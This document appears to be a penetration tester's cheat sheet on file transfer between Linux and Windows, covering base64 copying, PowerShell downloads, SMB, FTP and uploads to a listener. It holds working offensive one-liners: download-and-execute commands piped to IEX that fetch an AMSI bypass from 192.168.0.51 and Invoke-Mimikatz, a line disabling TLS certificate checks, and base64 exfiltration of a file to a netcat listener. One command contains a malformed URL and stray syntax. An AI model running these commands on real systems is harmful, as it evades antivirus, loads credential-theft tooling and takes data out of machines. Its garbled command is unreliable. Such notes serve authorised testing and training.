 ## PowerShell
### Copying Using Base64 From from Linux to Windows

Verify the MD5 hash of the target file:

```bash
garffff@garffff:~/test$ more hello.py 
print("hello world!")
garffff@garffff:~/test$ md5sum hello.py 
01c0a257edd3c2e95c25d80a4c18c5cc  hello.py
```

Base64 the target file :

```bash
garffff@garffff:~/test$ cat hello.py |base64 -w 0;echo
cHJpbnQoImhlbGxvIHdvcmxkISIp
```

In PowerShell, echo the base64 output to a location:

```bash
PS C:\users\public\downloads> [IO.File]::WriteAllBytes("C:\Users\Public\hello.py", [Convert]::FromBase64String("cHJpbnQoImhlbGxvIHdvcmxkISIp"))
```

Verify MD5 of target file:

```bash
PS C:\users\public\downloads> Get-FileHash C:\Users\Public\hello.py -Algorithm md5

Algorithm       Hash                                                                   Path
---------       ----                                                                   ----
MD5             01C0A257EDD3C2E95C25D80A4C18C5CC                                 
```

### Copying Using Base64 From from Windows to Linux

```bash
PS C:\users\public\downloads> [Convert]::ToBase64String((Get-Content -path "C:\users\public\hello.py" -Encoding byte))
cHJpbnQoImhlbGxvIHdvcmxkISIp
```

Verify MD5 hash:

```bash
PS C:\users\public\downloads> Get-FileHash "C:\users\public\hello.py" -Algorithm MD5 | select Hash

Hash
----
01C0A257EDD3C2E95C25D80A4C18C5CC
```

On Linux system:

```bash
echo 'cHJpbnQoImhlbGxvIHdvcmxkISIp' | base64 -d > hello.py
```

Verify hash:

```bash
garffff@garffff:~/test$ md5sum hello.py 
01c0a257edd3c2e95c25d80a4c18c5cc  hello.py
```

### Web Downloads

Malicious files can be detected by Defender:

```bash
PS C:\users\public\downloads> (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')

PS C:\users\public\downloads> wget 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1' -o PowerView_wget.ps1
PS C:\users\public\downloads> curl 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1' -o PowerView_curl.ps1
```

Using Invoke-WebRequest is a slower method, this can launch IE when first launched:

```bash
PS C:\users\public\downloads> Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```

To prevent IE from loading use the following:

```bash
PS C:\users\public\downloads> Invoke-WebRequest https://https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1/PowerView.ps1 -UseBasicParsing {| IEX}
```

When SSL/TLS certificate are not trusted (not tested):

```bash
PS C:\users\public\downloads> [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
PS C:\users\public\downloads> (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')
```
### Web Downloads - Fileless (memory)

Need to bypass AMSI to load Malicious files into memory:

```bash
PS C:\users\public\downloads> (New-Object System.Net.WebClient).DownloadString('http://192.168.0.51/amsi.txt') | IEX
```

Then load into memory:

```bash
PS C:\users\public\downloads> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
PS C:\users\public\downloads> (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```

### Web Uploads

Create a uploads webserver:

```bash
garffff@garffff:~/test$ pip3 install uploadserver
garffff@garffff:~/test$ python3 -m uploadserver
File upload available at /upload
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Upload file from Windows:

```bash
PS C:\Users\Public\Downloads> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
PS C:\Users\Public\Downloads> Invoke-FileUpload -Uri http://192.168.0.51:8000/upload -File C:\users\public\downloads\hello.py

[+] File Uploaded:  C:\users\public\downloads\hello.py
[+] FileHash:  01C0A257EDD3C2E95C25D80A4C18C5CC
```

### Web Uploads Using Base64

```bash
PS C:\Users\Public\Downloads> $b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\users\public\downloads\hello.py' -Encoding Byte))
```

Create a NC listener:

```bash
garffff@garffff:~/test$ sudo nc -lvp 8000
```

Send Base64 encoded file:

```
PS C:\Users\Public\Downloads> Invoke-WebRequest -Uri http://192.168.0.51/ -Method POST -Body $b64
```

Results:

```bash
garffff@garffff:~/test$ sudo nc -lvp 80
Listening on 0.0.0.0 80
Connection received on 192.168.0.75 1979
POST / HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-GB) WindowsPowerShell/5.1.19041.4894
Content-Type: application/x-www-form-urlencoded
Host: 192.168.0.51
Content-Length: 28
Connection: Keep-Alive

cHJpbnQoImhlbGxvIHdvcmxkISIp
```
## SMB

Create SMB server:

```bash
garffff@garffff:~/test$ sudo smbserver.py share /tmp -smb2support 
Impacket for Exegol - v0.10.1.dev1+20231106.134307.9aa93730 - Copyright 2022 Fortra - forked by ThePorgs

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Copying to Windows:

```bash
c:\Users\Public\Downloads>copy \\192.168.0.51\share\hello.py
        1 file(s) copied.
```

Using a username and password:

```bash
c:\Users\Public\Downloads> net use x: \\192.168.220.133\share /user:garffff password
c:\Users\Public\Downloads> copy x:\hello.py
```

## FTP

Create FTP server:

```bash
garffff@garffff:~/test$ sudo pip3 install pyftpdlib
garffff@garffff:~/test$ sudo python3 -m pyftpdlib --port 21
[I 2024-09-29 14:49:52] concurrency model: async
[I 2024-09-29 14:49:52] masquerade (NAT) address: None
[I 2024-09-29 14:49:52] passive ports: None
[I 2024-09-29 14:49:52] >>> starting FTP server on 0.0.0.0:21, pid=47842 <<<
```

Copy file:

```bash
PS C:\users\public\downloads> (New-Object Net.WebClient).DownloadFile('ftp://192.168.0.51/hello.py', 'C:\Users\Public\downloads\hello.py')
```

### FTP - Upload

Create writable FTP server

```bash
garffff@garffff:~/test$ sudo python3 -m pyftpdlib --port 21 --write
[sudo] password for garffff:            
/usr/local/lib/python3.10/dist-packages/pyftpdlib/authorizers.py:243: RuntimeWarning: write permissions assigned to anonymous user.
  warnings.warn("write permissions assigned to anonymous user.",
[I 2024-09-29 15:06:15] concurrency model: async
[I 2024-09-29 15:06:15] masquerade (NAT) address: None
[I 2024-09-29 15:06:15] passive ports: None
[I 2024-09-29 15:06:15] >>> starting FTP server on 0.0.0.0:21, pid=52705 <<<
```

Upload file from Windows:

```bash
PS C:\htb> (New-Object Net.WebClient).UploadFile('ftp://192.168.0.51/hello.py', 'c:\users\public\downloads\hello.py')
```
